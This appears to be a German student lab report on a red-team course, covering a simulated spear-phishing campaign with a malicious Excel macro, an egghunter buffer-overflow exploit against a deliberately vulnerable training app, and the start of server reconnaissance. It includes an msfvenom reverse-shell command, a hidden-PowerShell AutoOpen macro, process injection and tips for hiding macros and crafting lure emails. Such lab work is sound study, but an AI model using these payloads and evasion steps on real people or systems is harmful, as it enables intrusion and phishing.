# Whitehat Hacking 3 <!-- omit in toc -->
- [Aufgabe 1](#aufgabe-1)
	- [Interpretation der Aufgabenstellung](#interpretation-der-aufgabenstellung)
	- [Setup](#setup)
	- [Erste Versuche](#erste-versuche)
	- [Versuch mit Excel](#versuch-mit-excel)
	- [Making it Stealthy](#making-it-stealthy)
- [Aufgabe 2](#aufgabe-2)
	- [Interpretation der Aufgabenstellung](#interpretation-der-aufgabenstellung-1)
	- [Vorbereitungen](#vorbereitungen)
	- [Applikation und suchen des Overflows](#applikation-und-suchen-des-overflows)
	- [Disclaimer](#disclaimer)
	- [Exploiting](#exploiting)
- [Aufgabe 4](#aufgabe-4)
	- [Binary Compile](#binary-compile)
	- [Suche nach potentiel ausnutzbaren Vulnerabilities](#suche-nach-potentiel-ausnutzbaren-vulnerabilities)
	- [Untersuchen der Canaries und des BO](#untersuchen-der-canaries-und-des-bo)

## Aufgabe 1 

Als Sie in der Früh ins Büro kommen ersucht Sie Ihre Kollegin Beate gleich ins Besprechungszimmer zu kommen. Dort erfahren Sie, dass die Forensik Abteilung bei Ihrer Untersuchung eines Sicherheitsvorfalls bei einem Ihrer wichtigsten Kunden festgestellt hat, dass die bislang unbekannte APT Gruppe „No Regerts“ offenbar über einen Social Engineering Angriff Zugriff auf das System erhielt. Der Kunde hat daraufhin sofort Ihr Red Team beauftragt die User Awareness und Sicherheit im Hinblick auf Social Engineering Angriffe und die vorhandenen Gegenmaßnahmen zu testen. Das Ziel des Red Teams ist es eine mehrstufige, möglichst ausgeklügelte und überzeugende Spear Phishing Kampagne auf Executive Mitarbeiter zu starten. Das Ziel gilt als erreicht, sobald es dem Team gelingt eine Bind Shell auf einem full patched Windows 10 Rechner mit eingeschaltetem AMSI zu starten und sich damit zu verbinden. 

### Interpretation der Aufgabenstellung  

Erstellen eines Office Dokuments mit eingebetteten Macro, welches einen Tunnel zum System des "Hackers" aufbaut. Das Dokument muss eine "glaubhafte" Geschichte erzaehlen.

### Setup

Es werden eine Kali 20.04 VM und eine Windows 10 x32 basierend auf einer KVM Umgebung verwendet.

### Erste Versuche

Der erste Versuch war die Erstellung eines Word Dokuments vom Typ "docm", welches Makros beinhalten kann. Diesem wird eine mit dem Venom Plugin des Metasploit-Frameworks erstellt. Folgende Befehle wurden im ersten Versuch benutzt:

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.122.224 LPORT=1337 -e x86/shikata_ga_nai -f vba-psh > macro.txt

Dabei hat der Windows defender hier seine Arbeit sehr gut gemacht und das Makro sofort beim Speichern als Schadhaft erkannt.



Anscheinend muss die Payload hier besser codiert werden. Um die Payload besser zu verstehen und etwas tiefer in die Materie einzusteigen wurden der obige Befehl ohne die Encryption erstellt um die Funktionen lesen zu koennen.

    Sub rIriDKgfEv()
      Dim e6anPeao
      e6anPeao = "powershell.exe -nop -w hidden -e <encrypted payload for opening a reverse tunnel to the LHOST"
     Call Shell(e6anPeao, vbHide)
    End Sub
    Sub AutoOpen()
      rIriDKgfEv
    End Sub
    Sub Workbook_Open()
      rIriDKgfEv
    End Sub

Hier faellt sofort auf, dass "Workbook_Open()" nicht in Word implementiert ist. 

### Versuch mit Excel

Der Plan ist mit dem Tool "EXCELentDonut" [^1] eine hidden Payload in Excel zu verpacken. Diese Payload ist eine mit MSFVENOM generierte Payload, welches in dem von EXCELentDonut mitgeliefertem Template eingefuegt wurde.

[^1]: https://github.com/FortyNorthSecurity/EXCELntDonut

Das Template verwendet Process Injection um die Payload auszufuehren. Hierbei konvergiert das Tool lediglich einen C# Code in quasi Excel Makro Format. 



Nun wird der von dem Tool erstellte Text in die Zwischenablage kopiert und ueber einen Rechtsclick in einem Excel Workbook auf dem Zielsystem auf "Sheet1" der Text als Macro eingefuegt.



Auf der Angreifermaschine wurde die Meterpretersession gestartet und als erster Test das Makro auf dem Zielrechner ausgefuehrt.

Nachdem der Fehler mit der Payload fuer die Falsche Architektur (x64 vs x86) behoben wurde, startete das Makro auch sofort die Meterpreter session.





### Making it Stealthy

Da wir nun Wissen, dass unsere Prosess Injcetion funktioniert, muessen wir nun das Excel Wokrbookt "herrichten"

Als ersters wird die Zelle A1 im Macro Sheet auf "AutoOpen" umbenannt. Das hat den gleichen Effekt wie eine AutoOpen Funktion in VBA-Macros und so wird unsere Routine beim Start ausgefuehrt. Anschliesend "Verstecken" wir das Makro Worksheet und fuellen das Sichtbare Worksheet mit Dummydaten, welche zu unserer Geschichte Passen. Es sei zu erwaehnen, dass es in Excel fuer ein Worksheet den Status "hidden" und "very hidden" geben kann. Der hidden-Status kann ueber die GUI erreicht werden, wohingegen "very hidden" nur durch aendern eines bestimmten Bytes mittels einens Hex-Editors erzielt wird.

Da dies eine Spear-Phishing Kampagne simuliert, wird hier davon ausgegangen, dass durch OSINT-Methoden Informationen ueber das Berufs- und Privatleben der Zielperson erlangt worden sind.

Laut LinkedIn und einigen Posts auf Social Media ist die Zielperson daran, sich mit einem Berufsbegleitendem Studium am Technikum Wien, ihr Wissen zu erweitern. Daher wird auf die Zielperson angepasst eine Phishing-Mail mit dem Titel: " Streng Vertraulich: Jaehrliche Abrechnung zum Unkostenbeitrag" geschickt, welche das zuvor praeparierte Excel File angehaengt hat.

Das Ziel bekommt nun folgende Oberflaeche nach dem Oeffnen des Dokuments.



Die Zielperson muss im Body der Mail auf ein (in unserem Fall nicht vorhandenes) Macro Hingewiesen werden, welches weitere Inhalte Freischaltet. Man kann hier noch ein legitimes Makro zusaetzlich einbauen, um das Excel-File noch unauffaelliger wirken zu lassen. Fuer unseren Fall haben wir ab dem Click auf den "Enable Content" Button schon gewonnen. Weiters ist unten zu sehen, dass das Makro Sheet nicht sichtbar ist. Dies koennte jedoch mit einem Rechtsclick auf Sheet1 wieder eingeblendet werden. (Was mit dem oben erwaehnten "very hidden" nicht der Fall waere)

Nach dem Oeffnen und dem Content Enablen erhalten wir die 2. Session. Die erste ist nicht mehr aktiv, da inzwischen neu gestartet wurde.



## Aufgabe 2

Nachdem die Social Engineering Kampagne ein voller Erfolg war und es Ihrem Team gelungen ist
Ncat.exe zur Ausführung zu bringen kam Ihr Kollege aus der Schulungs- und Weiterbildungsabteilung mit
einer Bitte zu Ihnen. Dort wurde für ein externes Schulungs- und Ausbildungsprogramm eine Anwendung
erstellt, die bewusst Vulnerabilities beinhaltet. Man ersucht Sie nun diese Anwendung zu testen und
exploiten, um eine Einschätzung zu bekommen wie herausfordernd die Aufgabe für die
Schulungsteilnehmer sei. Wichtig sei, erklärt man Ihnen, dass Sie, sofern Sie in der Lage sind die
Anwendung zu hacken unbedingt dies mittels eines Egghunter Exploits machen sollen, egal ob es auch
andere Lösungen gäbe, da die Schulung eben dieses Thema behandelt.
Auf Ihre Nachfrage, welche Schulungsrechner verwendet werden meinte der Kollege, es soll ja nicht zu
anspruchsvoll sein also 32 Bit Rechner mit deaktivierter DEP und ASLR.
Mit den Worten „endlich wieder ein Zero day“ machen Sie sich sogleich ans Werk.

### Interpretation der Aufgabenstellung

Es soll Board_Release.exe mittels einem Bufferoverflow benutzt werden um einen PoC zu erstellen. Als dediziertes Werkzeug ist Egghunter vorgeschrieben, und die Zielumgebung soll Windows mit deaktiviertem DEP und ASLR sein.

### Vorbereitungen

ASLR wurde durch nullsetzen des Registry-Keys 

	HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\MoveImages

DEP war per default nur fuer Windows Programme und Services aktiviert, also nicht fuer unser Board_Release.exe.

Eine erster Portscan nachdem ich die Applikation gestartet habe zeigt, dass auf Port 4444/tcp ein TCP-Service zur verfuegung steht. Der Port wird durch netstat, lokal ausgefuehrt, bestaetigt.

Die Anwendung wurde nicht sofort ordnungsgemaess ausgefuehrt und so wurde sie mehrere male auch als Administrator neu gestartet. Schlussenldich bekam ich dann ein "HELLO FROM SERVER".



### Applikation und suchen des Overflows

Nun galt es sich mit der Applikation vertraut zu machen und nach Moeglichkeiten eines Userinputs zu suchen. Diese wurden durch "A -neuer Nachricht" und "C - Aendere Board Topic" gefunden.

Board_Release.exe wird mittels Immunity Debugger gestartet, dass mann auch die Register beobachten kann.

Mittels einfachen Einfuegen von Strings mit 1000 Charactern wird ueberprueft ob eines der Eingabefelder zum Herbeifuehren eines Absturzes genutzt werden kann. 

Beim veraendern des Topics ( Befehl "C") stuerzt das Programm ab und man sieht eindeutig, dass EAX, ESP und ESI mit lauter 'a's und der EIP mit 0x61 (HEX fuer 'a') ueberschrieben worden sind. 



Nachdem wir nun die Stelle gefunden haben, mit der wir die Register ueberschreiben koennen muessen wir die Offsets der Register herausfinden.

Wir uebergen diesmal ein mit dem in Kali mitgelieferten pattern_create.rb erstelltes Pattern zur bestimmung ueber und nehmen die Werte zum Zeitpunkt des Absturzes zum ermitteln des Offsets.



Fuer den EIP ergibt das einen Offset von 40.



Weiters faellt auf, dass der ESI genau den Anfagn des Patterns wiederspiegelt. Das heisst also, dass der Wert von C in ESI  gespeichert wird, und die Laenge des Registers 235 Zeichen lang ist. 

Der Stackpointer hat einen Offset von 44 und ist 200 Zeichen maximal. Dieser wird anscheinend direkt nach dem EIP ueberschrieben.

### Disclaimer

Das kopieren einer grossen Anzahl an Zeichen in die Eingabefelder um das Programm zum absturz zu bringen scheint im gegensatz zu einem dedizierten Programm, dass die Anzahl der Zeichen iterativ erhoeht im ersten Moment primitiv, ist jedoch Zeit effizienter, und druch das einmalige Pattern aus dem Pattern_Create.rb ohne viel Aufwand moeglich, da es bei unserem Fuzzing nur um die Anzahl der Zeichen geht und nicht um Bad Characters oder gewisse Zeichenfolgen.

### Exploiting 

Da mona.py zum Erstellen des Egghunter Coders benoetigt wird musste dieses, durch kopieren des Quellcodes on den PyCommands Folder, nachgeladen werden.

Wir nehmen vorsichtshalber das Nullzeichen "0x00" aus dem zu generierenden Code aus und versuchen den Exploit ohne Suche nach weiteren Bad Characters. Falls dies nicht gelingt muss mittels Mona die Suche nach weiteren Bad characters (wie in der Vorlesung) gestartet werden.

Da wir noch einen Start Jump brauchen, der in unsere NOP's reinspringt und wir unseren Code in ESI platzieren, suchen wir mit MONA nach einem "jmp esi" in unserem laufendem Prozess.

	!mona jmp –r esp
	!mona find -type instr -s "jmp esp" -cpb '\x00‘

Beide Befehle fanden "jmp esp" vorkommnisse. Jedoch fand der 2. Befehl auch die Speicheradressen und nicht nur die Files. 



Da es mit "jmp esp" einige Probleme gab wurde dann als Sprung Adresse ein "call esp" gewaehlt.

Wir koennen nun unsere Payloads zusammenstellen.
Mit Mona erstellen wir den Egghunter String,welcher zu "w00tw00t" springt. Diese springt dann direkt via dem Keyword zur eigentlichen Payload, dem klassichen Calc.exe .

Die eigentliche Payload kann im Message Feld platziert werden, da man dort nicht so Platzgebunden ist. 

Der Schlussendliche Code Sieht wie folgt aus:

![code](ue2/pics/code.png

Eine schwierigkeit bestand noch darin den Jump richtig hinzubekommen und eine Passende Adresse fuer den "call esp" zu finden. Es wurden verschiedene Breakpoints in Immunity gesetzt und verschiedene CAll Befehle durchprobiert bis Schlussendlich der Calculator gepoppt ist.

![done](ue2/pics/done.png

## Aufgabe 4

Nachdem man sich mit dem FH-VPN Verbunden hat, kann man sich mit der Zieladresse verbinden. Der Broswer zeigt kurz die Webseite an gibt dann aber ein "Verbindung unterbrochen". Mit ncat kann man sich verbinden, aber nach dem Eingeben eines Accounts passiert nichts. Daher wird erstmal die IP-Gescanned um Informationen zum darunterliegenden System zu erhalten.



Hierzu wurde aufgrund der Windows Testumgebung Zenmap benutzt. Als Flags sind die Standard "-sV" zum finden der offenen Ports und "-O" zur OS-Detection uebergeben.

Das Ergbnis zeigt und den http-Service und einen offenen SSH-Port.

Das System basiert anscheinend auf Debian Stretch.



Ein Einloggen in der Maske erfolgte wie laut angabe mit cs19m018:cs19m018 und es war dankenderweise die Funktion "help" implementiert.



Anscheinend "funktioniert" die Funktion "add Member" nicht wie erwartet, und ein "update username" bricht die Verbindung ab. 
Lediglich "add tournament" scheint wie erwartet zu funktionieren und schneidet sogar den input nach einer gewissen laenge ab.

Die einzelnen Eingabefelder wurden mit massenhaft "a's" befuellt um um Fehlverhalten zu erzeugen. Und siehe da. Change Username stuerzt nicht mehr ab, sondern gibt eine Warnung wieder.



Nachdem ich Cookies sehr gerne hab behalten wir uns das im Hinterkopf und gehen zu den lokal gespeicherten Files des "USB-Sticks" ueber und versuchen die leckeren Cookies aus der gelieferten Binary zu bekommen um die gleiche Methode auf dem Server anzuwenden.

"strings" verraet, dass das Binary mit GLIBC 2.0 compiliert worden ist und es gibt uns auch schon die Verfuegbaren Funktionen zurueck.

Ein Ausfuehren der Binary ist erfolglos, da eine library Fehlt. 

### Binary Compile

Da die fehlende Library eine Customlibrary ist, kann diese nicht einfach installiert werden. Die Vermutung legt nahe, dass einige der zuvor gesehenen Funktionen in dieser definiert sind. Um herauszufinden welche genau benoetigt werden wird eine leere library erstellt und mit gcc compiliert.

Wie erwartet werden uns fehlende Funktionsdefinitionen angezeigt

